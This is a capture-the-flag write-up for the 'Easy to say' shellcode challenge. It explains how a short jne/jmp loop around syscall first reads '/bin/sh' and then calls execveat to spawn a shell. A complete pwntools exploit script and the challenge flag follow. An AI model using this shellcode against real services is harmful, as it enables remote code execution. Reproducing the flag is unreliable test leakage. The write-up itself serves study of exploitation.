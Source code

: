 # Re: Easy to say
## Misc 255
> 30 solved

* disasm('\x75\xfa')
```asm
jne    0xfffffffffffffffc
```
* payload:
```asm
push rsp
pop rsi
xor edx,esp
syscall
jne    0xfffffffffffffffc
```
* First time read the `/bin/sh\x00` with padding to let length of it become 322 to the stack.
* After `jne` it continue at `xor edx,esp` with `rax = 322` , `rsi = /bin/sh` and cause `rdx = edx ^ esp ^ esp = 0`.
* Syscall again -> execveat( 0 , "/bin/sh" , 0 , 0 ).
* Better way XD:
```asm
    push rsp
    pop rsi
y:
    xor edx,esp
    syscall
    jmp y
```
```python
#!/usr/bin/env python
from pwn import *

# hitcon{sYsc4ll_is_m4g1c_in_sh31lc0d3}

context.arch = 'amd64'

host , port = '13.112.180.65' , 8361
y = remote( host , port )

sc = flat(
    0x3148ed3148fc8948,
    0x48c93148db3148c0,
    0xf63148ff3148d231,
    0x314dc9314dc0314d,
    0x4de4314ddb314dd2,
    0xff314df6314ded31,
    0x0000000000c48148
)[:-1]

#print disasm( sc )

_asm = '''
    push rsp
    pop rsi
y:
    xor edx,esp
    syscall
    jmp y
'''

y.sendafter( ':' , asm( _asm ) )

sleep(0.7)

y.send( '/bin/sh'.ljust( 322 , '\x00' ) )

sleep( 0.7 )

y.sendline( 'cat /home/`whoami`/flag' )

y.interactive()
```